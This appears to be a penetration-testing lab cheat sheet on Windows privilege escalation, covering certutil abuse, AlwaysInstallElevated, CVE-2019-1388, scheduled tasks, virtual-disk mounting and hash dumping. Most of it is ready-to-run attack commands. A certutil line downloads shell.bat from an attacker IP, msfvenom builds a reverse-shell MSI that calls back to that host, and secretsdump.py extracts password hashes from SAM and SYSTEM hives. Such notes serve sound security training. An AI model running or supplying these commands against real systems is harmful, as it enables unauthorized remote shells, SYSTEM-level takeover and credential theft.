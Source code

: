 
### LOLBAS - certutil.exe
```bash
certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat
certutil -encode file1 encodedfile
certutil -decode encodedfile file2
```

### Always Install Elevated
```powershell
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi
msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
```

### Scheduled Tasks
```powershell
schtasks /query /fo LIST /v
Get-ScheduledTask | select TaskName,State
.\accesschk64.exe /accepteula -s -d C:\Scripts\
```

### User/Computer Description Field
```powershell
Get-LocalUser
Get-WmiObject -Class Win32_OperatingSystem | select Description
```

### Mount VHDX/VMDK (Linux)
```bash
guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmdk
guestmount --add WEBSRV10.vhdx  --ro /mnt/vhdx/ -m /dev/sda1
```

### Retrieving Hashes (Linux)
```bash
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```



**1. Living Off The Land Binaries and Scripts (LOLBAS):**

- **Concept:** Using legitimate, Microsoft-signed binaries and scripts for malicious purposes.
- **Example: certutil.exe:**
    - File transfer: `certutil.exe -urlcache -split -f http://<IP>/file.exe file.exe`
    - Base64 encoding: `certutil -encode file1 encodedfile`
    - Base64 decoding: `certutil -decode encodedfile file2`
- **rundll32.exe:** Used to execute DLLs.

**2. Always Install Elevated:**

- **Vulnerability:** If enabled, any MSI package can be installed with SYSTEM privileges.
- **Enumeration:**
    - `reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`
    - `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
- **Exploitation:**
    - Generate malicious MSI: `msfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=<PORT> -f msi > aie.msi`
    - Execute: `msiexec /i aie.msi /quiet /qn /norestart`

**3. CVE-2019-1388:**

- **Vulnerability:** Privilege escalation through the Windows Certificate Dialog.
- **Exploitation:**
    - Run `hhupd.exe` as administrator.
    - Open certificate details.
    - Click the "Issued By" hyperlink.
    - Use "View page source" and "Save as" to launch `cmd.exe` as SYSTEM.

**4. Scheduled Tasks:**

- **Enumeration:**
    - `schtasks /query /fo LIST /v`
    - PowerShell: `Get-ScheduledTask | select TaskName,State`
- **Exploitation:**
    - If write permissions exist on task scripts or the task itself, modify them for malicious code execution.
    - Accesschk.exe to check folder permissions.

**5. User/Computer Description Field:**

- **Enumeration:**
    - PowerShell: `Get-LocalUser`
    - PowerShell: `Get-WmiObject -Class Win32_OperatingSystem | select Description`

**6. Mount VHDX/VMDK:**

- **Technique:** Mount virtual hard disk files to access their contents.
- **Linux:**
    - VMDK: `guestmount -a <VMDK_FILE> -i --ro /mnt/vmdk`
    - VHD/VHDX: `guestmount --add <VHDX_FILE> --ro /mnt/vhdx/ -m /dev/sda1`
- **Windows:**
    - Right-click and "Mount" or use Disk Management.
    - PowerShell: Mount-VHD
    - VMDK: Map Virtual Disk, VMWare workstation, or 7zip.

**7. Retrieving Hashes using Secretsdump.py:**

- **Technique:** Extract password hashes from SAM, SECURITY, and SYSTEM registry hives.
- **Command:** `secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL`

**Key Commands and Tools:**

- `certutil.exe`
- `rundll32.exe`
- `reg query`
- `msfvenom`
- `msiexec`
- `schtasks`
- `Get-ScheduledTask` (PowerShell)
- `Get-LocalUser` (PowerShell)
- `Get-WmiObject` (PowerShell)
- `guestmount` (Linux)
- `secretsdump.py` (Impacket)
- Accesschk.exe